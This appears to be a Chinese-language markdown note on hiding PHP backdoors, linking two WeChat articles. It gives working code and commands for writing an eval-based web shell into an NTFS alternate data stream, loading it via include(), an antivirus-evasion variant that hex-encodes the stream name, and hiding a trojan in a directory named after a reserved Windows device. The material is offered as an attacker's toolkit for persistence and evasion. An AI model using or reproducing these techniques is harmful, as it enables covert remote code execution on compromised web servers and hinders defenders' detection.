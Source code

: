 # <center>php 后门隐藏技巧</center>


<center><a herf="https://mp.weixin.qq.com/s?__biz=MzI5MDQ2NjExOQ==&mid=2247487709&idx=1&sn=7c760aa3dc63f6f75042d5f6d01b4462&chksm=ec1e20f5db69a9e3c3a775d2422930daace3999bdff124580279ce24cf5da122d37c708e11f5&scene=21#wechat_redirect">php 后门隐藏技巧</a></center>
<center><a herf="https://mp.weixin.qq.com/s/PqcHvqXIZOocomGyWH1vHQ">奇淫异巧之 PHP 后门</a></center>


#####  一. attrib +s +h
* 在Linux中不存在
* attrib +s +h 文件名
      + 添加文件属性

       -  删除文件属性

       R 只读文件属性

       A 存档文件属性

       S 系统文件属性

       H 隐藏文件属性

##### 二.利用ADS隐藏文件
#### &emsp;&emsp;NTFS 交换数据流（Alternate　Data　Streams，简称 ADS）是 NTFS 磁盘格式的一个特性，在 NTFS 文件系统下，每个文件都可以存在多个数据流。通俗的理解，就是其它文件可以“寄宿”在某个文件身上，而在资源管理器中却只能看到宿主文件，找不到寄宿文件。利用 ADS 数据流，我们可以做很多有趣的事情。
1. 首先创建 ADS 隐藏文件,在命令行执行

```php
echo ^<?php @eval($_REQUEST[1]);?^> > index.php:shell.jpg
```
２．就生成了看不见的ｓｈｅｌｌ<br>
３．查看生成文件
```
dir /r

```
4.删除(删除ｉｎｄｅｘ.ｐｈｐ)
5.结合文件包含(否则利用很鸡肋)
```
<?php include('index.php:shell.jpg')?>
```
#####  二.- 免杀
把 index.php:shell.jpg hex 编码
```php
<?php
$a="696E6465782E7068703A7368656C6C2E6A7067";
// index.php:shell.jpg hex编码
$b="a";
include(PACK('H*',$$b))
?>
```

##### 利用windows保留字
* Windows 操作系统定义的设备名称，是保留关键字，不允许使用：

          CON,COM{0-9},PRN,AUX,NUL,LPT{0-9}
* 1. Windwos cmd中执行
          md aux\
* 2. 然后copy我们的马到这个目录下
              copy a.exe aux\a.exe
* 删除目录的方式
          del \\.\c:\aux\a.exe
          rd  \\.\c:aux

